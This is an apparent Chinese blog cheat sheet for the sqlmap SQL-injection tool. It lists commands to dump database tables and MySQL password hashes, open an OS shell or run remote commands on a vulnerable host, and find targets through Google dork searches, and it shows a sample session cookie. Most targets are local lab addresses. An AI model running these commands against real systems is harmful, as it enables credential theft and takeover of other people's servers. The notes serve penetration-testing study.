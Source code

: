 ```yaml
---
title: sqmap simple intro
top: false
cover: false
toc: true
mathjax: true
date: 2019-09-12 22:14:36
password:
summary:
tags:
categories:
---
```


## 常用命令
```
./sqlmap.py -u "http://localhost:88/vulnerabilities/sqli/?id=1&Submit=Submit#" –cookie=mycookice.txt –batch
./sqlmap.py -u "http://192.168.3.64:8080/user/login?username=foo&passwd=bar" –batch -D sql_inject_demo -T t_user –columns
./sqlmap.py -u "http://192.168.3.64:8080/user/login?username=foo&passwd=bar" –batch -D sql_inject_demo -T t_user -C ‘username, passwd’ –dump
./sqlmap.py -u "http://192.168.3.64:8080/user/login?username=foo&passwd=bar" –batch -D mysql -T user -C ‘user, authentication_string’ –dump
./sqlmap.py -u "http://127.0.0.1/index.php?id=1" –os-shell // 获取远程主机的shell
./sqlmap.py -u "http://127.0.0.1/index.php?id=1" –os-cmd="whoami" // 执行远程主机的命令
./sqlmap.py -u "http://127.0.0.1/index.php?id=1" –is-dba // 检查DBMS用户是否为DBA
./sqlmap.py -g "inurl:php?id=" // 通过google寻找url带有php?id=字段的地址
```

**参数解析**
–batch –dbs //showdatabases
–batch –current-db //showcurrentdb
–batch -D database -T user -C varchar–tables //showtables
–columns //showcolumns
–tables //thesame

__以GET方式的cookice形式:__
_ga=GA1.1.1240902680.1567156892; portainer.datatable_text_filter_home_endpoints=; PHPSESSID=r56dp5dsqrc9rmjq74k85m4jd1; security=low

__POST注入方式:__
$ python sqlmap.py -r header.txt –dbs
// -r是从一个文件中载入HTTP请求
// 其余都与GET一样将-u部分改成-r header.txt
从chrome保存下来的request header:
POST /index.php HTTP/1.1 ...
